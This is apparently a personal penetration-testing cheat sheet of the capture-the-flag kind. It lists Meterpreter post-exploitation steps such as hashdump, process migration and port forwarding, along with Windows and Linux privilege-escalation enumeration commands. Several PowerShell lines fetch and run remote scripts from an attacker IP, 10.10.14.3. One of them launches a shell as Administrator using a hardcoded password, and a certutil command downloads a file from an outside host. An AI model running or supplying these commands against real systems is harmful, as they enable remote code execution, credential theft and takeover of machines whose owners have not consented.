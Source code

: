 ## Meterpreter
### getuid
### sysinfo
### hashdump
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Use different process
```
ps
migrate
```
### Get Powershell
```
load powershell
powershell_shell
```
### Port forward
```
portfw add -l 455 -p 455 -r 127.0.0.1
```
## Windows
### Initial
```
whoami /all
```
### Script
```
echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PowerUp.ps1') | powershell -noprofile -
```

### Check permission
```
Get-ACL administrator | Fl *
```

### Run as user
```
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')" -Credential $cred
```

### Change file permission
```
cacls root.txt /t /e /p Alfred:F
```
### route print
### netstat -ano
### arp -a
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```

## Bash
```
sockstat -l
cat .bash_history
history
sudo -l
```

## Others
### LinEnum
### linuxprivchecker.py
### pspy32
Find scheduled jobs without root
### windows exploit suggester
```
python windows-exploit-suggester.py --database 2020-05-19-mssb.xls --systeminfo systeminfo.txt
```
### https://www.fuzzysecurity.com/tutorials/16.html
